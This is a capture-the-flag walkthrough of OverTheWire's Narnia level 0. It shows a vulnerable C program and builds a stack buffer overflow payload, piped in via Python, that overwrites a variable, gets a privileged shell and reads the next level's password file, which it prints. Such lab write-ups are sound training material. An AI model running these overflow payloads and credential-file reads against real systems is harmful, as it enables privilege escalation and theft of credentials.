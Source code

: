 ```bash
user@host:~$ ssh narnia0@narnia.labs.overthewire.org -p 2226
narnia0
```

As we can read from the game description: `PASSWORDS for each level are stored in /etc/somegame_pass/`. Let us start there. After a few tries it is clear we can't get any information on the files containing the passwords for other levels.

```bash
narnia0@narnia:/etc/narnia_pass$ file narnia0
narnia0: ASCII text
narnia0@narnia:/etc/narnia_pass$ file narnia1
narnia1: regular file, no read permission
```

In the `/` directory a folder named `narnia` exists.

```bash
narnia0@narnia:/narnia$ ls
narnia0    narnia1.c  narnia3    narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4    narnia5.c  narnia7    narnia8.c
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: narnia0
buf: narnia0
val: 0x41414141
WAY OFF!!!!
```

The program `narnia0.c` goes (excluding the licensing information):

```c
narnia0@narnia:/narnia$ cat narnia0.c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

So no matter what we enter into the program, the buffer is never compared to anything. However, the buffer is 20 bytes long but we read 24 bytes into it. Since `scanf` reads the input and puts the memory on the stack, it might overwrite the `val` variable. This is what we wiull try to exploit.

`0xdeadbeef` is the hexadecimal representation of the 32-bit number 3735928559, so it is 4 bytes long. Let's see if we can feed 20 bytes into the program AND something like this number. Lert us start with investigating whether our intuition is right.

```
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 000000000000000000001234
val: 0x34333231
WAY OFF!!!!
```

This is an interesting result. The first 20 `0` characters are read into the buffer, and the last four bytes are read into `val`, but they are oriented backwards! So if we orient the characters backwards in the input it will be read forwards. This is exactly the buffer overflow that `scanf` causes.

Let's automate this a bit. We have `python` in our path:

```bash
narnia0@narnia:/narnia$ python --version
Python 2.7.13
```

We can hence create these strings without having to count the `0`'s by feeding a small program as a string and having it execute, piping the output into the `narnia0` program.

```bash
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "feebdaed"'
00000000000000000000feebdaed
```

Let's try with what we know so far!

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "feebdaed"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000feeb
val: 0x62656566
WAY OFF!!!!
```

We can see that feeding the string as ASCII text is not satisfactory. If we inspect the feedback, we can see that `val` is now equal to `0x62656566`, which is hexadecimal for the word `beef`. So in some way, only the last part of the word made it in. Let's try feeding in bytes instead

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "\xde\xad\xbe\xef"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ޭ��
val: 0xefbeadde
WAY OFF!!!!
```

We can almost read `deadbeef`! We just have to remember that the bytes are read pair-wise!

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
```

This works! But nothing seems to happen...

If we look at the source code, we can see that two things happen once we set `val` to `deadbeef`:

    1. setreuid90 sets the user id of the calling process (which is our terminal)
    2. A new shell is started by system(), but it exits as it does not get any input

So we just need to feed it more commands! That is simple by using parenthesis:

```
narnia0@narnia:/narnia$ (python -c 'print "0"*20 + "\xef\xbe\xad\xde"'; echo id;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
```

Now just read the password from the folder.

```
narnia0@narnia:/narnia$ (python -c 'print "0"*20 + "\xef\xbe\xad\xde"'; echo cat ../etc/narnia_pass/narnia1 ;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
efeidiedae
```
